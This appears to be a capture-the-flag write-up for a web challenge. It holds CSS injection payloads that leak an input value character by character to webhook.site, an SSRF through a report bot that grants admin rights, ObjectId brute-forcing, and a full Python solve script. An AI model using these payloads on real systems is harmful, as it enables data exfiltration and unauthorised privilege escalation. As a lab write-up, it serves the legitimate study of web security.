 ```yaml
---
created: 2024-07-27T02:55
updated: 2024-07-28T04:17
tags:
  - css-injection
solves: 15
points: 360
---
```


> Color your username colorful!

## First Part

To access the admin's username, we can use the value of edit page's `<input>`.
`/post/edit/{pid}`

```html
<p>Author: <input class="author" type="text" value="{{author.username}}" disabled></p>
<p>Your account: <input class="user" type="text" value="{{user.username}}" disabled></p>
```

### CSS Injection

To do this I decided to use CSS selectors, because `xss` has prevented naïve XSS methods.

```css
input.user[value^="DEAD{flag_"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_');
}
```

If I received a request, that means the flag indeed starts with that sequence, we can also use multiple rules like this each with a different url query so I would know which rule in particular activated.

```css
input.user[value^="DEAD{flag_a"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_a');
}
input.user[value^="DEAD{flag_b"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_b');
}
input.user[value^="DEAD{flag_c"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_c');
}
```

After we receive a request, we update the payload with the new found char, and guess the next char.

### Payload

We will register a new account for every attempt, and add multiple CSS rules checking multiple "next character".

The payload is placed inside `personalColor`, as we can see, that's the only place where triple bar (i.e. no escape) is used.

```css
.author {
    color: {{{ author.personalColor }}}
}

.user {
    color: {{{ user.personalColor }}}
}
```

The backend uses `xss` library which will escape all occurrences of `<>` and I think it is not possible to exit the `<style>` tag.
## Second Part

To view notices we have to be admins, we can make the report bot grant us admin rights.

This is a simple SSRF to `https://TARGET/admin/report?url=http://localhost:1337/admin/grant?username=USERNAME`.

After logging out and logging in again, we can now see the notice page, where we can find the mongoose id of the two entries sandwiching the flag.

`66a4b8f9d40a5a2b039f2d68 66a4b8ffd40a5a2b039f2d6a`
### Find flag's id
But flag's id is hidden, how would we find it?

```js
await delay(randomDelay());
await db.notices.insertOne({ title: "asdf", content: "asdf" });

await delay(randomDelay());
await db.notices.insertOne({ title: "flag", content: "FAKE_FLAG}" });

await delay(randomDelay());
await db.notices.insertOne({ title: "qwer", content: "qwer" });
```

Mongoose ids are actually encoded timestamps, so by exploring all "in-between" values, we can find the flag's id.
## Solve Script

To solve the first part, you have to start run the script every time you add a new character.

I've heard of easier & faster recursive `@import` methods but thought this is simpler.

```python
import urllib.parse
import re
import string
import random
import requests


def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))


target = "39c1490373bbf326a5023003.deadsec.quest"


def register(s, user, passw, payload):
    s.post(f"https://{target}/auth/register", json={"username": user,
                                                    "password": passw,
                                                    "personalColor": payload})


def login(s, user, passw):
    r = s.post(f"https://{target}/auth/login", json={"username": user, "password": passw})
    s.cookies.set('accessToken', r.json()['accessToken'])


def gain_admin(s, user):
    r = s.get(f"https://{target}/admin/report?url=http://localhost:1337/admin/grant?username={user}").json()
    print("gain_admin", r)


def notice_ids(s):
    r = s.get(f"https://{target}/admin/notice/").text
    g = re.findall(r"/admin/notice/([a-f0-9]+)", r)
    id1, id2 = g
    print("found ids", id1, id2)
    d1 = int(id1[:8], 16)
    d2 = int(id2[:8], 16)
    p1 = int(id1[8:], 16)
    p2 = int(id2[8:], 16)
    print("trying a total of", (d2-d1+1)*(p2-p1+1), "combinations")  # probably not need that many
    for _1 in range(d1, d2+1):
        for _2 in range(p1, p2+1):
            try:
                r = s.get(f"https://{target}/admin/notice/{_1:08x}{_2:016x}").text
                if "flag" in r:
                    f = re.search(r"<div class=\"post-content\">([^<]+)", r).group(1).strip()
                    print("flag part 2", f)
            except:
                pass


def report_post(s):
    pid = s.get(f"https://{target}/post/all").json()[0]['_id']
    url = f"http://localhost:1337/post/edit/{pid}"
    s.get(f"https://{target}/admin/report?url={urllib.parse.quote(url)}")


def make_post(s):
    s.post(f"https://{target}/post/write", json={"title": "test", "content": "test"})


def str_to_css_hex(s):
    special_characters = r'[_]'
    return re.sub(special_characters, lambda match: f'\\{ord(match.group(0)):04x}', s)


def tryFlag(pres):
    s = requests.session()
    try:
        print("trying", pres)
        user = id_generator(7)
        passw = id_generator(7)
        _pres = '\n'.join([f"""input.user[value^="{pre}"]{{
background: url('https://webhook.site/?prefix={urllib.parse.quote(pre)}');
}}""" for pre in pres])
        payload = f"""
#000;}}
{_pres}
*{{""".strip()
        register(s, user, passw, payload)
        login(s, user, passw)
        make_post(s)
        report_post(s)
        print("done", pres)
    except Exception as e:
        print('error!', e)
        tryFlag(pres)
        return None


def extendFlag(flag_pre):
    w_size = 25
    for I in range(0, len(string.printable), w_size):
        chrs = [string.printable[I+i] for i in range(min(w_size, len(string.printable)-I))]
        pres = [str_to_css_hex(flag_pre+c) for c in chrs]
        random.shuffle(pres)
        tryFlag(pres)


def second_part():
    s = requests.session()
    register(s, "kumo", "kumo", "#000")
    login(s, "kumo", "kumo")
    print("login")
    gain_admin(s, "kumo")
    s.cookies.clear()
    login(s, "kumo", "kumo")
    notice_ids(s)


# extendFlag("DEAD{")
second_part()   # c010rful_w3b_with_c55}
```

```flag
DEAD{Enj0y_y0ur_c010rful_w3b_with_c55}
```

## Failed Attempts

- Using selection hash `#:~:text={urllib.parse.quote(flag)}` didn't work on remote for some reason, worked on local browser.
- Using svg ligatures generated fonts, and look for scrollbars also didn't work for some reason, the scrollbar selector always activates.
- I spent 90% of the time trying to leak the view page, and totally forgot the edit page has a input element.
